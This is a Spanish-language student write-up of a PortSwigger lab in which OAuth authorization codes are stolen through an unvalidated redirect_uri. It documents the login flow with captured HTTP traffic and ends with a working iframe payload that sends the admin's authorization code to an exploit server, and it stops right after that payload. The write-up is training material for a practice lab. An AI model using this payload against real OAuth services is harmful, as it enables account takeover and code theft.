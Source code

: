 This lab uses an OAuth service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.

To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete the user `carlos`.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in with your own social media account using the following credentials: `wiener:peter`.



En el laboratorio observamos como al darle al "My-account" nos popea una ventana de Sing-In para logearnos con nuestra cuenta de red social, el flujo de peticiones desde el login es el siguiente:

# Flujo de login
## Primera peticion /my-account
Request:
```http
GET /my-account HTTP/2
Host: 0a64000c0402c65881a1894000b1004f.web-security-academy.net
Cookie: session=7lciVvOZV9mOQHmLxypkIpSexdzlkRma
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: 
```
Response:
Nos redirige a /social-login
```http
HTTP/2 302 Found
Location: /social-login
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

## Segunda petición
Request:
Se realiza un get de /social-login
```http
GET /social-login HTTP/2
Host: 0a64000c0402c65881a1894000b1004f.web-security-academy.net
Cookie: session=7lciVvOZV9mOQHmLxypkIpSexdzlkRma
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a64000c0402c65881a1894000b1004f.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```
Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3153

<!DOCTYPE html>
<html>
    <head>
        <link href=/resourc etc...
        
                   </header>
                    <meta http-equiv=refresh content='3;url=https://oauth-0a02005a04b1c6ae8160871802af0096.oauth-server.net/auth?client_id=nw553rjvrotd7v3azb1vt&redirect_uri=https://0a64000c0402c65881a1894000b1004f.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email'>
                    <p>We are now redirecting you to login with social media...</p>
                </div>
```

![[Pasted image 20250211173447.png]]

**Redireccion automatica** :

- La etiqueta `<meta http-equiv=refresh>`  triggerea  una  redireccion automatica en 3 seconds. la url a la que me envia es la siguiente:
- https://exploit-0a8d006904a0c60b819b88180126009f.exploit-server.net

Esta peticion conecta con el servidor de explotacion (nuestro servidor que nos proporciona portswigger.) Esto se debe a que debemos meter el exploit en esta redireccion que se realiza. En un entorno real deberiamos haber explotado alguna vulnerabilidad XSS para que se ocasione la redireccion ; Pero como estamos detallando el flujo de peiciones no la debo saltar
## Tercera peticion
Request:
La tercera peticion es a /auth donde le pasamos los parametros de login 
- `client_id`: Identifica la aplicación que está solicitando el acceso.
- `redirect_uri`: Especifica la URL a la que se redirigirá al usuario después de la autenticación.
- `response_type=code`: Indica que se espera recibir un código de autorización como respuesta.
- `scope`: Define los permisos que la aplicación está solicitando (por ejemplo, información básica del perfil y correo electrónico).

```http
GET /auth?client_id=nw553rjvrotd7v3azb1vt&redirect_uri=https://0a64000c0402c65881a1894000b1004f.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email HTTP/2
Host: oauth-0a02005a04b1c6ae8160871802af0096.oauth-server.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Priority: u=0, i
Te: trailers
```
Response:
Nos redirecciona a la cuarta peticion 
```http
HTTP/2 302 Found
X-Powered-By: Express
Pragma: no-cache
Cache-Control: no-cache, no-store
Set-Cookie: _interaction=Wxj-0Oyaq_C47ToRlnDh_; path=/interaction/Wxj-0Oyaq_C47ToRlnDh_; expires=Tue, 11 Feb 2025 16:40:20 GMT; samesite=lax; secure; httponly
Set-Cookie: _interaction_resume=Wxj-0Oyaq_C47ToRlnDh_; path=/auth/Wxj-0Oyaq_C47ToRlnDh_; expires=Tue, 11 Feb 2025 16:40:20 GMT; samesite=lax; secure; httponly
Location: /interaction/Wxj-0Oyaq_C47ToRlnDh_
Content-Type: text/html; charset=utf-8
Date: Tue, 11 Feb 2025 16:30:20 GMT
Keep-Alive: timeout=5
Content-Length: 99

Redirecting to <a href="/interaction/Wxj-0Oyaq_C47ToRlnDh_">/interaction/Wxj-0Oyaq_C47ToRlnDh_</a>.
```


## Cuarta peticion
Request:
- Después de ser redirigido por la tercera petición, el cliente solicita la página de inicio de sesión.
- La cookie `_interaction` se envía junto con la solicitud para identificar la interacción específica
```http
GET /interaction/Wxj-0Oyaq_C47ToRlnDh_ HTTP/2
Host: oauth-0a02005a04b1c6ae8160871802af0096.oauth-server.net
Cookie: _interaction=Wxj-0Oyaq_C47ToRlnDh_
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Priority: u=0, i
Te: trailers
```

Response
Ya nos carga la pagina del login 

```http
HTTP/2 200 OK
X-Powered-By: Express
Pragma: no-cache
Cache-Control: no-cache, no-store
Content-Type: text/html; charset=utf-8
Etag: W/"d0b-FzJycu3nA7+XPVYpuRpY71MRIoY"
Date: Tue, 11 Feb 2025 16:30:21 GMT
Keep-Alive: timeout=5
Content-Length: 4390

<!DOCTYPE html>
<html >
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta http-equiv="x-ua-compatible" content="ie=edge">
    <title>Sign-in</title>
    ....
```
Ya  nos muestra la pagina del **Sign-In**
![[Pasted image 20250211174946.png]]


# Exploit

Una vez estudiado el flujo de Oauth observamos que en la tercera peticion (/auth?) mandamos un parametro `redirect_uri` que le manda al servidor una Url; 

Vamos a mandarlo al repeter de Burp para ver si podemos modificar esta url con la de nuestro servidor;

Cambiamos redirect_uri a nuestro servidor https:
![[Pasted image 20250211180737.png]]

Log:
Recibimos una respuesta por parte del servidor 
```http
193.144.43.254  2025-02-11 17:06:20 +0000 "GET /exploit HTTP/1.1" 200 "user-agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
193.144.43.254  2025-02-11 17:06:46 +0000 "POST / HTTP/1.1" 302 "user-agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
```

Pues ya tenemos claro nuestro vector de ataque , debemos preparar un payload que nos devuelva la cookie de admin



Crafteamos el siguiente payload en el servidor de explotacion

```http
<iframe src="https://oauth-0a02005a04b1c6ae8160871802af0096.oauth-server.net/auth?client_id=nw553rjvrotd7v3azb1vt&redirect_uri=https:///exploit-0a8d006904a0c60b819b88180126009f.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```